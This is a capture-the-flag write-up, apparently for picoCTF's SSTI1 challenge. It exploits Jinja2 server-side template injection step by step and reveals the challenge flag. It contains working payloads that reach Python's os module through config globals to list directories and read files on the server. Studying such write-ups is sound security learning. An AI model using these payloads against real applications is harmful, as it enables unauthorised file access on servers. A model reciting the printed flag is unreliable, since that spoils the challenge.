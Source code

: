 # 🧠 SSTI1 – Server-Side Template Injection

## 🧩 Challenge Description

A web form takes user input and reflects it back into the page.  
Suspicion: the server uses a vulnerable template engine (e.g. Jinja2).  
Objective: exploit the SSTI to retrieve a flag stored in the server filesystem.

---

## 🛠️ Tools Used

- Browser (Firefox/Chrome)
- Jinja2 SSTI payloads
- [PayloadAllTheThings – SSTI Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)

---

## 🧪 Exploitation Steps

### 🧪 Step 1 – Confirm SSTI

Entered:
```
{{7*7}}
```
✅ Confirms that template expressions are evaluated → SSTI vulnerability exists.  
![Step 1 – SSTI Reflection](../screenshots/ssti1-reflection.png)

---

### 🗂 Step 2 – List Root Directory

Payload:
```
{{config.__class__.__init__.__globals__['__builtins__']['__import__']('os').listdir('/')}}
```
✅ Identified a suspicious directory.  
![Step 2 – List Root](../screenshots/ssti1-root-dir.png)

---

### 📂 Step 3 – Explore `/challenge/` Directory

Payload:
```
{{config.__class__.__init__.__globals__['__builtins__']['__import__']('os').listdir('/challenge')}}
```
🎯 Located the `flag` file.  
![Step 3 – Challenge Folder](../screenshots/ssti1-challenge-dir.png)

---

### 🏁 Step 4 – Read the Flag File

Payload:
```
{{config.__class__.__init__.__globals__['__builtins__']['open']('/challenge/flag').read()}}
```
📥 Extracted the flag.  
![Step 4 – Flag Found](../screenshots/ssti1-flag-read.png)

---

## 🏁 Flag

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}
```

---

✅ This challenge highlights the risk of rendering unescaped user input using server-side template engines like Jinja2.
